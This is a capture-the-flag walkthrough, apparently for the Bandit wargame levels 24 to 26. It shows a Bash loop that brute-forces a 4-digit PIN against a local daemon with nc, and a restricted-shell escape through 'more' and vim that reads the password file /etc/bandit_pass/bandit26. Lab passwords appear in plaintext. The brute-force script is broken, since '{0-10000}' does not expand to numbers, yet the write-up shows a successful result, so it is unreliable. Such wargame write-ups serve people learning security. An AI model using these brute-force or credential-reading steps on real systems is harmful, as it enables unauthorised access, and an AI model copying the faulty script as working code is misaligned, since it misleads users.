 ### Level 24 -> 25:
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

```console
bandit24@bandit:~$ mkdir /tmp/24
bandit24@bandit:~$ cd /tmp/24
bandit24@bandit:/tmp/24$ nano
```

We will go ahead and write a new Bash Script to Brute Force the PIN while attempting a connection.

```bash
#!/bin/bash
passwd="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"

for a in {0-10000}
do
    echo $passwd' '$a | nc localhost 30002 >> result &
done
```

Save the script as `script.sh`, and go back to console to run the script.

```console
bandit24@bandit:/tmp/24$ chmod 755 script.sh
bandit24@bandit:/tmp/24$ ./script.sh
bandit24@bandit:/tmp/24$ sort result | uniq -u

Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```

### Level 25 -> 26:
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not __/bin/bash__, but something else. Find out what it is, how it works and how to break out of it.

```console
bandit25@bandit:~$ ls -a
.   .bandit24.password  .bashrc  .profile
..  .bash_logout        .pin     bandit26.sshkey
bandit25@bandit:~$ cat /etc/passwd | grep bandit26 
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
bandit25@bandit:~$ cat /usr/bin/showtext 
#!/bin/sh

more ~/text.txt
exit 0
```

Before we try to SSH into bandit26, shrink the Console down to only 5 lines and run the `SSH` command.

```console
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost
```

Once the command is ran, press V and it should take you to VIM, then type:

```console
:r /etc/bandit_pass/bandit26
```

Press `Enter`, and you should get the password!

```console
5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
```
